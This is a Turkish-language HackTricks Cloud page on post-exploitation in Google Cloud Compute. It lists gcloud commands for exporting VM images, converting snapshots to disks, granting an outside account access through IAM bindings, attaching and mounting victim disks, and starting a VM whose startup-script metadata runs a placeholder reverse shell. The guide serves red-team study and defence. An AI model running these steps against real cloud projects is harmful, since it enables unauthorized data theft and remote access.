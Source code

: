 # GCP - Compute Post Exploitation

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## Compute

Compute ve VPC (Ağ) hakkında daha fazla bilgi için kontrol edin:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Görüntüleri yerel olarak dışa aktarın ve inceleyin

Bu, bir saldırganın **zaten mevcut görüntülerde bulunan verilere erişmesine** veya **çalışan VM'lerin yeni görüntülerini oluşturmasına** ve çalışan VM'ye erişim olmadan verilerine erişmesine olanak tanır.

Bir VM görüntüsünü bir kovaya dışa aktarmak ve ardından indirmek ve yerel olarak bağlamak mümkündür. 

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Bu işlemi gerçekleştirmek için saldırganın depolama kovası üzerinde yetkilere ve kesinlikle **cloudbuild üzerinde yetkilere** ihtiyacı olabilir, çünkü bu **hizmet** dışa aktarma işlemini gerçekleştirmesi istenecektir.\
Ayrıca, bunun çalışması için codebuild SA ve compute SA'nın ayrıcalıklı izinlere ihtiyacı vardır.\
Cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com` için gerekli olanlar:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

Ve SA `<project-id>-compute@developer.gserviceaccount.com` için gerekli olanlar:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### Anlık Görüntüleri ve Diskleri Yerel Olarak Dışa Aktarma ve İnceleme

Anlık görüntüleri ve diskleri doğrudan dışa aktarmak mümkün değildir, ancak **bir anlık görüntüyü bir diske, bir diski bir görüntüye dönüştürmek** ve **önceki bölümdeki** adımları takip ederek, o görüntüyü dışa aktararak yerel olarak incelemek mümkündür.

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Bir VM Oluşturarak Bir Görüntüyü İnceleme

Bir saldırganın **bir görüntü oluşturduğu** yerden **bir görüntüde depolanan verilere** veya **çalışan bir VM içindeki verilere** erişim sağlama amacıyla, bir dış hesaba görüntüye erişim izni vermek mümkündür:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
ve ardından ondan yeni bir VM oluşturun:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
Eğer dış hesabınıza görüntü üzerinden erişim veremiyorsanız, kurbanın projesinde o görüntüyü kullanarak bir VM başlatabilir ve **metadata'nın bir ters kabuk çalıştırmasını** sağlamak için parametre ekleyebilirsiniz:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Bir Snapshot/Disk'i bir VM'ye Ekleyerek İnceleme

**Bir diskte veya snapshot'ta depolanan verilere erişim sağlama amacıyla, snapshot'ı bir diske, diski bir imaja dönüştürebilir ve önceki adımları takip edebilirsiniz.**

Ya da **bir dış hesaba disk üzerinde erişim verebilirsiniz** (başlangıç noktası bir snapshot ise, snapshot'a erişim verin veya ondan bir disk oluşturun):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Bir diski** bir örneğe ekleyin:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Diski VM içinde bağlayın:

1.  **VM'ye SSH ile bağlanın**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **Diski Tanımlayın**: VM'ye girdikten sonra, disk cihazlarını listeleyerek yeni diski tanımlayın. Genellikle, `/dev/sdb`, `/dev/sdc` gibi bulabilirsiniz.
3. **Diski Formatlayın ve Bağlayın** (eğer yeni veya ham bir diskse):
*   Bir bağlama noktası oluşturun:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   Diski bağlayın:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

Eğer **snapshot veya diske dış bir projeye erişim veremiyorsanız**, bu işlemleri **snapshot/disk ile aynı projedeki bir örnek içinde gerçekleştirmeniz gerekebilir**.

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
